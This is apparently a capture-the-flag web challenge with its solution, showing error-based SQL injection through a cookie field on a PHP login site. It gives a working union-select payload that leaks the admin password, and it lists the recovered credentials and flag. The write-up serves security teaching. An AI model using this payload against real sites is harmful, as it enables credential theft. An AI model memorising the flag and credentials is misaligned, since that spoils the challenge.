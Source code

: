 #HelloAdmin

**Category:** Web
**Points:** 20

**Description:**

Log in as 'admin' and you will see the flag!

http://helloadmin.iutcert.io

##HelloAdmin-Solution

This challenge is sql-injection. Users are given a login page. Using ```test:test``` they can login and will be redirected to user.php page.
There is also another page named admin.php but they could access it only when the cookie ```Admin``` is equal to 1.

checking for sql-injection vulnerability, users can find out when they send a request to admin.php with below values in Cookie field of header, site is vulnerable to sql and will respond with a sql error:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie="; Admin=1
```

The concept of this challenge is that MyCookie filed is vulnerable, but when everything is ok only the message ```hello test``` will be show in page.
It means that no value from database will be show on this page and users can not see database fields and their values.

The solution is simple, find a way to see the results of query in error. here is the query for geting the flag:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie=" union select 1,2,3,count(*), concat((select password from users limit 0,1),floor(rand()*3))a from information_schema.tables group by a--+; Admin=1
```

and by logging as admin they can see the flag:

```
username: admin
password: YouC4nNOTLoginAsM3
```
**flag: ** ```VOW_YOU_l0gg3d_in_AS_M3333```
